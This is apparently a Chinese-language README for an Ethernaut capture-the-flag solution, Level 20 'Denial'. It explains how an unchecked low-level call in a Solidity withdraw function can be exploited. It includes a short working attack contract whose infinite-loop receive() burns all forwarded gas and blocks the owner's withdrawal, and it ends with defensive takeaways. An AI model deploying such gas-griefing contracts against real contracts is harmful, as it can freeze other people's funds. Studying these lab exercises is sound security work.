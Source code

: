 <div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>

<img src="../imgs/levels/20-denial.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 20 - Denial</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 20 - Denial](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标

目的是要阻止 owner 在 withdraw 的时候提取资产  
<img src="../imgs/requirements/20-denial-requirements.webp" width="800px"/>

## 漏洞

The goal of the Denial challenge is to prevent the owner from withdrawing funds using the `withdraw()` function. How to do that?

我们看一下 `withdraw()` 函数的实现细节:

```javascript
function withdraw() public {
        uint amountToSend = address(this).balance / 100; // 1% 的余额
        partner.call{value:amountToSend}(""); // 发送eth给 partner
        payable(owner).transfer(amountToSend); //发送eth给 owner 

        //无关代码
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }
```

这里又两个external calls:

- `partner.call{value:amountToSend}("");`
- `payable(owner).transfer(amountToSend);`

给owner转账的 `transfer` 没有什么操作空间. 但是, `call` 转账时，我们可以在`receive()`实现更多的逻辑. 为了不给owner转账，我们只需要在调用`call`时，直接消耗完所有的gas，则会直接错误`outofgas`；这样给owner转账的时候，就会失败了:

```javascript
receive() external payable {
    while (true) {}
}
```

## 解答

实现攻击合约:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract Attack {
    receive() external payable {
        while (true) {}
    }

    // receive() external payable {
    //     revert();
    // }
}

```

你可以在项目的根目录执行以下命令，进行验证：

```bash
forge test --match-contract  DenialTest  -vvvvv
```

## 要点

- 需要检测`call` 的返回值.
- 使用 `call` 的时候，需要指定gas.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
